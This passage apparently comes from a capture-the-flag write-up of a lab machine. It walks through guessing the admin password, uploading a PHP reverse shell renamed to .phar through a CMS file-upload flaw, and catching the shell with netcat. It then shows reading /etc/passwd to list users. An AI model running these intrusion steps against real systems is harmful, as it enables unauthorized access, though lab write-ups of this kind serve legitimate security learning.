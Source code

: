 ... Nice , we only need the password , but we don't have that , let's try some common passwords , after a short time, I obtained the correct password it's 'password':
... ![dashbord](https://i.ibb.co/yQbtX44/dashboard.png)
... And we're in, that's the administration dashboard, now let's search if this CMS version has any vulnerabilities, and we found one, it's vulnerable to File Upload Remote Code Execution :
... ![exploit](https://i.ibb.co/j6nGDRh/vuln.png)
... And we see the exploit from ExploitDB :
... ![exploitdb](https://i.ibb.co/7JQHd0H/exploit.png)
... After checking that python exploit, we find that it's uploading a .phar file (which is one of many other php extensions) that contains a web shell, since we know the way let's do that manually.
### Exploitation:
... So first we go to the uploading page, which we can find in the navbar 'manage files' :
... ![navber](https://i.ibb.co/X4yDcjv/navbar.png)
... So we get this page:
... ![upload](https://i.ibb.co/vQHqycv/upload.png)
... Grabbing a PHP reverse shell, then simply switching its extension from .php to phar.

```bash
This command to copy the reverse shell from /usr/share/webshells/php directory to where you stay
 s4cript> cp /usr/share/webshells/php/php-reverse-shell.php .
This is command to change name for the php-reverse-shell.php to shell.phar
 s4cript> mv php-reverse-shell.php rev_shell.phar
```
... Now we upload that file, after that we get this page :
... ![uploaded_file](https://ibb.co/1nY7ZKC/uploaded.png)
... We start a listener, then we click on that lens icon, and the file gets called and we get a reverse shell :
```bash
 s4cript> nc -lnvp 1234     
listening on [any] 1234 ...
connect to [10.18.114.37] from (UNKNOWN) [10.10.35.14] 32888
Linux dreaming 5.4.0-155-generic #172-Ubuntu SMP Fri Jul 7 16:10:02 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 11:02:04 up 8 min,  0 users,  load average: 0.08, 0.13, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
... i like to run this commands when i connected with non-interactive reverse shell , that it's optional But it's help me to dealing with machines after i get a non-interactive reverse shell
```bash
This command to elevate our Shell to interact shell(bash shell)
$ /bin/bash -i
Setting TERM(it's environment variable.) to xterm(it's is a terminal type, representing the X Terminal Emulator.) can help ensure proper display and functionality when running programs that rely on terminal capabilities
$export TERM=xterm
```
... We get foothold on the machine as www-data , Now it's time to find other users.
### Enumeration users:
... First we need to see all the users present on the machine by read the 'passwd' file:
```bash
$ cat /etc/passwd | grep 'bash'
root:x:0:0:root:/root:/bin/bash
lucien:x:1000:1000:lucien:/home/lucien:/bin/bash
death:x:1001:1001::/home/death:/bin/bash
morpheus:x:1002:1002::/home/morpheus:/bin/bash
$ 
```
